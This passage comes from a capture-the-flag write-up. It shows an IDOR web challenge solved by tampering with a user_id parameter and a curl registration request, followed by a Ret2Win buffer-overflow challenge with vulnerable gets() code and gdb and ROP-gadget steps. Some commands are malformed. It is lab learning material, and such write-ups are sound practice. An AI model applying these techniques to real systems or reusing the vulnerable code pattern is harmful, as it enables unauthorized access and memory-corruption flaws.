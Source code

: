 ```
        echo "<h1>Flag</h1>";
        echo "<p>$flag</p>";
    }
        
```
This time they fix the data being stored in Database by passing the userID. We cannot manipulate userid anymore. But there are new vulnerability in URL directory where it passed the `user_id` which we can manipulate it in endpoint `/index.php`.

Next it also check the username is `admin`. As long as the word admin appear in username, it will triggered it as admin. 

The payload will look like
```
Register with any user
myadmin:hello

curl -X POST -iL 'http://localhost:8081/register.php'  'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=aaddmmiin&password=hello

/login.php?user_id=php

```

==ictf{this_ch4lleng3_creator_1s_really_an_idoriot}==

---


## PWN
### Ret2Win
**Description**
Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)
**Solution**
```
int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}

```
Obvious buffer overflow where in `/main` the `buf` directly being called without any buffer. We can put more than `64` to overflow it. Then overwrite return from end the program to call win `function`. 

```
set disassembly-flavor intel
set pagination off
Find the overflow
cyclic 100
*RBP  0x6161616161616169 ('iaaaaaaa') # offset 64

Return padding 1 byte = 8bits

(rop.find_gadget(['ret'])[0])
ropper -f vuln --search "ret"

x win
```
